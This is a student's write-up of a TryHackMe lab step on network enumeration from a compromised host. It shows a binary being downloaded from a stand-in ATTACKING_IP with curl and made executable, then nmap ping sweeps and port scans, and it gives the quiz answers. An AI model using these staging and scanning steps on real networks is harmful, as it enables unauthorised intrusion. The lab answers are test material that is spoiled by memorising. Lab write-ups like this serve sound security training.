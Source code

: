 It's time to put your newfound knowledge to the test!

Download a [static nmap binary](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap). Rename it to `nmap-USERNAME`, substituting in your own TryHackMe username. Finally, upload it to the target in a manner of your choosing.

**For example, with a Python webserver:-**

On Kali (inside the directory containing your Nmap binary):

`sudo python3 -m http.server 80`

Then, on the target:

`curl ATTACKING_IP/nmap-USERNAME -o /tmp/nmap-USERNAME && chmod +x /tmp/nmap-USERNAME`

![[Enumeration-20241212150151042.webp]]

---

Now use the binary to scan the network. The command will look something like this:

`./nmap-USERNAME -sn 10.x.x.1-255 -oN scan-USERNAME`

You will need to substitute in your username, and the correct IP range. For example:

`./nmap-MuirlandOracle -sn 10.200.72.1-255 -oN scan-MuirlandOracle`

Here the `-sn` switch is used to tell Nmap not to scan any port and instead just determine which hosts are alive.  

Note that this would also work with CIDR notation (e.g. 10.x.x.0/24).  

Use what you've learnt to answer the following questions!

> [!Note]
>The host ending in `.250`is the OpenVPN server, and should be excluded from all answers. It is not part of the vulnerable network, and should not be targeted. The same goes for the host ending in `.1` (part of the AWS infrastructure used to create the network) -- this too is out of scope and should be excluded from all answers.



---

# Your job
After downloading nmap to the attacking machine:

- Rename nmap:
	`cp nmap nmap-KAIROS`

- On Kali (inside the directory containing your Nmap binary):

	`sudo python3 -m http.server 80`

- Then, on the target:
	- root@prod-serv ~]# `cd /tmp`
	- root@prod-serv tmp]# `./nmap-KAIROS -sn 10.200.84.1-255 -oN scan-KAIROS`
	![[Enumeration-20241212151823782.webp]]

There are the following valid IPs:

`10.200.84.100`
`10.200.84.150`

- Scan the machines.
- root@prod-serv tmp]# `./nmap-KAIROS 10.200.84.100`
	![[Enumeration-20241214142632468.webp]]
- root@prod-serv tmp]# `./nmap-KAIROS -p-15000 -T5 10.200.84.150`

	![[Enumeration-20241214142537599.webp]]


---

> [!question]
> 1. Excluding the out of scope hosts, and the current host (`.200`), how many hosts were discovered active on the network? 
> `2`
> 2. In ascending order, what are the last octets of these host IPv4 addresses? (e.g. if the address was 172.16.0.80, submit the 80)
> `100,150`
> 3. Scan the hosts -- which one does _not_ return a status of "filtered" for every port (submit the last octet only)?  
> `150`
> 4. Let's assume that the other host is inaccessible from our current position in the network. Which TCP ports (in ascending order, comma separated) below port 15000, are open on the remaining target?  
> `80,3389,5985`
> 5. We cannot currently perform a service detection scan on the target without first setting up a proxy, so for the time being, let's assume that the services Nmap has identified based on their port number are accurate. (Please feel free to experiment with other scan types through a proxy after completing the pivoting section). Assuming that the service guesses made by Nmap are accurate, which of the found services is more likely to contain an exploitable vulnerability?
> `HTTP`

Now that we have an idea about the other hosts on the network, we can start looking at some of the tools and techniques we could use to access them!

**Next step:** [[GIT SERVER/Pivoting]]

